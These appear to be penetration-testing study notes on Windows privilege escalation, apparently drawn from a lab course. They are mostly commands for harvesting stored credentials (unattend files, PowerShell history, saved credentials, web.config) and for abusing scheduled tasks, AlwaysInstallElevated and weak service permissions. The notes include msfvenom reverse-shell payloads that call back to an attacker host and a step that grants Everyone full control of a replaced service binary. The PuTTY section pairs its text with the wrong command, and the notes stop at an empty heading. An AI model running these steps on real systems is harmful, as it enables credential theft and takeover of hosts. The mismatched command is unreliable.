 # Windows Privilege Escalation

### Windows Privilege Escalation

**Windows Users**

Administrators: These users have the most privileges. They can change any system 
configuration parameter and access any file in the system.

Standard Users: These users can access the computer but only perform limited tasks. 
Typically these users can not make permanent or essential changes to the system and are 
limited to their files.

Any Administrators will be part of the Administrators group, Standard Users the Users group

**Built-in accounts**

SYSTEM/LocalSystem: An account used by the operating system to perform internal tasks. It 
has full access to all files and resources available on the host with even higher privileges 
than administrators.

Local Service: Default account used to run Windows services with "minimum" privileges. It 
will use anonymous connections over the network.

Network Service: Default account used to run Windows services with "minimum" privileges. It 
will use the computer credentials to authenticate through the network.

### Harvesting Passwords from Usual Spots

**Unattended Windows Installations**

When installing Windows on a large number of hosts, administrators may use Windows 
Deployment Services, which allows for a single operating system image to be deployed to 
several hosts through the network. 

These kinds of installations are referred to as unattended installations as they don't 
require user interaction. Such installations require 
the use of an administrator account to perform the initial setup, which might end up being 
stored in the machine in the following locations:

C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml

As part of these files, you might encounter credentials:

```
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

**Powershell History**

Display powershell history for current user

cmd.exe
`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

powershell.exe
`type $env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

**Saved Windows Credentials**

List saved Windows credentials

`cmdkey /list`

Use saved credentials to run executables

`runas /savecred /user:<USERNAME> <EXE-FILE>`

**IIS Configuration**

Internet Information Services (IIS) is the default web server on Windows installations. The 
configuration of websites on IIS is stored in a file called web.config and can store 
passwords for databases or configured authentication mechanisms. 

Depending on the installed version of IIS, we can find web.config in one of the following 
locations:

C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Find DB connection strings

`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

**Retrieve Credentials from Software: PuTTY**

PuTTY stores proxy credentials including cleartext authentication credentials. Search under the following registry key:

`type $env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

### Other Quick Wins

**Scheduled Tasks**

Find scheduled tasks missing a script/binary or using one you can modify

`schtasks /query /tn <TASK-NAME> /fo list /v`

Check permissions of scripts/binaries

`icacls c:\path\to\binary\script`

[icacls permissions list](./icacls-permissions.md)
[icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)

Insert a payload into the scheduled task and wait for execution

**AlwaysInstallElevated**

Windows installer files (also known as .msi files) are used to install applications on the 
system. They usually run with the privilege level of the user that starts it. However, 
these can be configured to run with higher privileges from any user account (even 
unprivileged ones). This could potentially allow us to generate a malicious MSI file that 
would run with admin privileges.

This method requires two registry values to be set.

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

If they are set you can generate a malicious .msi file with msfvenom

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.169.198 LPORT=LOCAL_PORT -f msi -o malicious.msi`

Set up a reverse shell handler and run msiexec to execute the payload

`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

### Abusing Service Misconfigurations

**Windows Services**

Windows services are managed by a process called the Service Control Manager (SCM). The SCM 
is in charge of managing the state of services as needed, checking the current status of 
any given service and generally providing a way to configure services.

Each service has an associated executable which will be run by the SCM whenever a service 
is started. Service executables implement special functions to be able to communicate with 
the SCM, not any executable can be started as a service successfully. Each service also 
specifies the user account under which the it will run.

Check service configurations with `sc qc`

Services have a Discretionary Access Control List (DACL) indicating who has permission to
start, stop, pause, query status, query configuration, or reconfigure the service, amongst 
other privileges. The DACL can be seen from Process Hacker under the Security tab of a 
service.

The services configurations are in the registry `HKLM\SYSTEM\CurrentControlSet\Services`

A subkey exists for every service in the system. The ImagePath value is the executable run
by the service and ObjectName is the service start name. DACL configuration is stored in a 
subkey called Security. By default only Administrators can modify registry entries.

**Insecure Permissions on Service Executable**

Find a service where the executable has weak permissions (`icacls`) and replace it with a 
malicious service executable generated with msfvenom

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=<PORT> -f exe-service -o malicious-service-executable.exe`

Replace the service executable with the uploaded malicious executable and grant it full 
permissions

`icacls <SERVICE-EXECUTABLE> /grant Everyone:F`

Start a listener on the attacking machine and wait or restart the service if you have 
permissions.

`sc stop <SERVICE-NAME>`
`sc start <SERVICE-NAME>`

**Unquoted Service Paths**
